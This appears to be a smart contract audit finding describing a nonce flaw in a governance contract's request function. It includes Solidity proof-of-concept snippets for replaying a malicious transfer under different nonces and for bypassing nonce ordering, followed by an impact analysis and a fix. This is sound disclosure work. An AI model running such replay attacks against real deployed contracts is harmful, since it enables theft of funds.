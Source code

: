 #### **Attack Scenarios:**

**Scenario 1: Replay Attack**
```solidity
// Step 1: Attacker creates malicious action
bytes memory maliciousCalldata = abi.encodeWithSelector(
    transfer.selector, 
    attacker, 
    1000000 * 10**18
);

// Step 2: Submit same action with different nonces
powers.request(lawId, maliciousCalldata, 1, "attack1");
powers.request(lawId, maliciousCalldata, 2, "attack2"); // Replay!
powers.request(lawId, maliciousCalldata, 3, "attack3"); // Another replay!

// Step 3: All three actions are valid and can be executed
// Result: Attacker gets 3x the intended amount
```

**Scenario 2: Nonce Ordering Bypass**
```solidity
// Step 1: User submits action with high nonce
powers.request(lawId, calldata, 100, "high_nonce");

// Step 2: Later, user submits action with lower nonce
powers.request(lawId, differentCalldata, 50, "low_nonce");

// Step 3: Both actions are valid
// Lower nonce action can be executed after higher nonce
// Bypasses intended ordering constraints
```

#### **Impact Analysis:**
- **Replay Attacks:** Same malicious action can be executed multiple times with different nonces
- **Ordering Bypass:** Users can manipulate action execution order by using lower nonces after higher ones
- **Security Model Violation:** this bypasses the intended action uniqueness and ordering guarantees
- **Economic Exploitation:** Can lead to multiple unauthorized executions of the same action

#### **Fix:**
```solidity
mapping(address => uint256) public userNonces;

function request(uint16 lawId, bytes calldata lawCalldata, uint256 nonce, string memory uriAction) external {
    // Validate nonce ordering
    require(nonce > userNonces[msg.sender], "Nonce too low");
    userNonces[msg.sender] = nonce;
    
    // ... rest of function ...
}
```

---